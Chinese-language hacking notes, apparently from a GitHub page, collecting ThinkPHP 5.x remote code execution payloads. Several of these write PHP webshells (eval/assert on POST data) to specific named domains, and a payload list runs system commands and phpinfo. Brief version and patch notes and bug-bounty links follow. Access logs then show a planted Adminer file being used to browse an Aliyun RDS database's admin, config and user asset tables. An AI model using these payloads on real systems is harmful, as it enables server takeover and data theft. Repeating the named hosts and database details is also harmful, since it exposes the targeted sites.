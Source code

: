 ### 发现漏洞
    域名/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][]=zxc1.php&vars[1][]=<?php @eval($_POST[fuck]);?>'
    
    api.91tangrenjie.com/?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][]=fff.php&vars[1][1]=<?php print_R(scandir('/www/wwwroot/api.91tangrenjie.com/application/admin'))?>
    
    api.91tangrenjie.com/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][]=shix1.php&vars[1][1]=<?php assert($_POST['fuck'])?>

### 发现
    api.6d2g.cn/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][]=tt.php&vars[1][]=<?php @eval($_POST[111]);?>
    
    ?s=index/\think\Request/input&filter=phpinfo&data=1
    ?s=index/\think\Request/input&filter=system&data=id
    ?s=index/\think\template\driver\file/write&cacheFile=shell.php&content=
    ?s=index/\think\view\driver\Php/display&content=
    ?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1
    ?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
    ?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1
    ?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0

    http://dkfh.h8mtqt.cn/api/invoke/args?function=call_user_func_array&vars[0]=file_put_contents&vars[1][]=notify.php&vars[1][]=<?php @eval($_POST[1111]);?>

    http://jogt.h8mtqt.cn/admin/auth/admin/invokesync?dialog=fast&function=call_user_func_array&vars[0]=file_put_contents&vars[1][]=notify.php&vars[1][]=<?php @eval($_POST[1111]);?>
    
    ReflectionFunction
       /**
     * 加载参数
     */
    public function args($function, $vars = [])
    {
        $reflect = new \ReflectionFunction($function);
        $args    = \think\App::bindParams($reflect, $vars);
        return $reflect->invokeArgs($args);
    }

### tp受影响版本 5.x < 5.1.31, <= 5.0.23

    Thinkphp v5.0.x补丁地址: https://github.com/top-think/framework/commit/b797d72352e6b4eb0e11b6bc2a2ef25907b7756f
    
    Thinkphp v5.1.x补丁地址: https://github.com/top-think/framework/commit/802f284bec821a608e7543d91126abc5901b2815

### 漏洞提交 

- 宜信安全应急响应中心 
- https://security.creditease.cn/  提交漏洞 
- https://www.anquanke.com/src
- https://butian.360.cn

### 安全类社区 

- 先知社区 seebug
- 安全客 freebuf
- tuisec 
- i春秋社区  
- 大佬的 twitter + blog
- 
- CTF平台  
- capture the flag  抢夺旗帜  获取旗帜



### 阿里云rds后台连接请求
- 通过注入写进来文件在build文件中里面 用的是 Adminer 只有一个PHP文件的MySQL管理客户端

HTTP/1.1" 200 11534 "http://system.hzctoken.com/build.php?server=rm-j6ce63wap86odtcb490150.mysql.rds.aliyuncs.com&username=hzc_root&db=hzc&table=admin_log" "Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.138 Safari/537.36"

./wwwlogs/admin.hzc.com.log:93.70.127.224 - - [23/May/2020:01:47:52 +0800] "GET /

build.php?server=rm-j6ce63wap86odtcb490150.mysql.rds.aliyuncs.com&username=hzc_root&db=hzc&table=config 

HTTP/1.1" 200 3641 "http://system.hzctoken.com/build.php?server=rm-j6ce63wap86odtcb490150.mysql.rds.aliyuncs.com&username=hzc_root&db=hzc&select=admin" "Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.61 Safari/537.36"

./wwwlogs/admin.hzc.com.log:47.53.199.20 - - [31/May/2020:15:45:35  0800] 

"GET /build.php?server=rm-j6ce63wap86odtcb490150.mysql.rds.aliyuncs.com&username=hzc_root&db=hzc&select=user_asset&columns[0][fun]=&columns[0][col]=&where[0][col]=&where[0][op]==&where[0][val]=0x8c0d43b01494ac19909bdb147c25873ecd1a7141&where[01][col]=&where[01][op]==&where[01][val]=&order[0]=&limit=50&text_length=100 

HTTP/1.1" 200 4615 "http://system.hzctoken.com/build.php?server=rm-j6ce63wap86odtcb490150.mysql.rds.aliyuncs.com&username=hzc_root&db=hzc&select=user_asset" "Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.61 Safari/537.36"

./wwwlogs/admin.hzc.com.log:47.53.199.20 - - [31/May/2020:15:45:40  0800] "GET /build.php?server=rm-j6ce63wap86odtcb490150.mysql.rds.aliyuncs.com&username=hzc_root&db=hzc&select=user_asset&columns[0][fun]=&columns[0][col]=&where[0][col]=&where[0][op]==&where[0][val]=01494ac19909bdb147c25873ecd1a7141&where[1][col]=&where[1][op]==&where[1][val]=&order[0]=&limit=50&text_length=100 

HTTP/1.1" 200 4600 "http://system.hzctoken.com/build.php?server=rm-j6ce63wap86odtcb490150.mysql.rds.aliyuncs.com&username=hzc_root&db=hzc&select=user_asset&columns[0][fun]=&columns[0][col]=&where[0][col]=&where[0][op]==&where[0][val]=0x8c0d43b01494ac19909bdb147c25873ecd1a7141&where[01][col]=&where[01][op]==&where[01][val]=&order[0]=&limit=50&text_length=100" "Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.61 Safari/537.36"


